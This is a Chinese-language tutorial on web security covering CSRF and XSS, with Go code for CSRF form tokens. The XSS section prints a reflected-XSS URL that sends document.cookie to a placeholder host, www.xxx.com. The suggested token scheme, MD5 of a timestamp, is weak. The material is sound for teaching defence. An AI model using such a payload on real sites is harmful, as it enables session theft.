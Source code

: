 # WEB安全

## CSRF(Cross-site request forgery)

中文名称：跨站请求伪造。
攻击方式：攻击者可以盗用你的登录信息，以你的身份模拟发送各种请求。
例子：当用户登录网络银行去查询存款余额的时候，还没有退出的时候，就点击了QQ发来的消息，那么该用于账户中的资金就有可能转移到攻击者指定的账户中。

## CSRF原理

原理图如下：
![](https://raw.githubusercontent.com/astaxie/build-web-application-with-golang/master/zh/images/9.1.csrf.png)
从可以看出，要完成一次`CSRF`攻击，受害者必须完成下面的两个步骤：
1. 登录信任的网站A,并且在本地产生cookie
2. 在不退出A的情况下，访问危险网站B

`CSRF`主要是因为WEB隐式身份验证机制，WEB身份验证机制虽然可以保证一个请求是来自某个用户的浏览器，但是不能保证这个请求是用户批准发出的。

## CSRF的防范

### 在服务端

1. 正确使用`GET`,`POST`和`COOKIE`
2. 在非`GET`请求中添加伪随机数

- 在使用GET的时候，用作查看，列举，展示等不需要改变资源属性的时候
- POST常用于下达订单，改变资源属性或者下达一些其他的命令 

我们限制修改只能使用`POST`，当GET方式请求的时候就拒绝访问，所以上图中的GET方式就可以避免了。
但是`POST`的方式也是可以模拟的,因此我们还要使用第二个步骤，给非GET请求添加伪随机数。
非GET请求中添加伪随机数一般有下面三个方式：
1. 为每一用户生成唯一的`cookie token`,所有的表单都包含同一个伪随机数。因为攻击者理论上是不能获得用户的`cookie`的,所以表单的数据也就构造失败了。但是`XSS`是可以获得用户的`cookie`的
2. 每个请求输入验证码，这种方式是最完美，但是用户的体验是最差的
3. 不同的表单包含不同的伪随机值(可以通过MD5(时间戳)去生成,然后保存在服务器的session中，刷新就会改变)，服务端进行验证。
生成随机数`token`:
```javascript
h := md5.New()
io.WriteString(h, strconv.FormatInt(crutime, 10))
io.WriteString(h, "ganraomaxxxxxxxxx")
token := fmt.Sprintf("%x", h.Sum(nil))

t, _ := template.ParseFiles("login.gtpl")
t.Execute(w, token)
```	
输出`token`：
```HTML
<input type="hidden" name="token" value="{{.}}">
```
验证`token`:
```node
r.ParseForm()
token := r.Form.Get("token")
if token != "" {
	//验证token的合法性
} else {
	//不存在token报错
}
```

## XSS(Cross-Site Scripting)

允许攻击者将恶意代码植入到提供给其他用户使用的页面中。
XSS的攻击目标是为了盗取存储在用户端的`cookie`和或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

XSS通常可以分为下面两种：
1. 存储型XSS：主要出现在让用户进行输入的地方，包括留言，评论或者博客日志和各类表单等。应用程序从数据库中查询书数据，在页面中显示出来，攻击者在相应的页面输入恶意的脚本数据后，用户浏览此类页面就会收到攻击。流程可以描述为：恶意用户的HTML输入 -> 进入数据库 -> WEB页面进行显示 -> 用户浏览器(操作收到攻击)
2. 反射性XSS：将脚本代码加入URL地址的参数中，请求参数进入程序后在页面中直接输出，用户点击恶意的网站就可能收到攻击

XSS现在主要的手段和目的如下：
1. 盗用cookie，获取敏感信息
2. 利用`iframe`,`frame`,`XMLHTTPRequest`或者`FLASH`方式，以(被攻击者)用户的身份执行一些管理动作
3. 利用可被攻击的域收到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如：不正当的投票

### XSS原理

Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。
接下来以反射性XSS举例说明XSS的过程：现在有一个网站，根据参数输出用户的名称，例如访问url：http://127.0.0.1/?name=astaxie，就会在浏览器输出如下信息：
```java
hello astaxie
```
如果我们传递这样的url：`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`,这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`，这样就可以把当前的cookie发送到指定的站点

### XSS的防范
答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。
目前防御XSS主要有如下几种方式：
1. 过滤特殊字符 使用文本传输(`text/template`)
2. 使用HTTP头指定类型 `w.Header().Set("Content-Type","text/javascript")`(这样就可以让浏览器解析javascript代码，而不会是html输出。)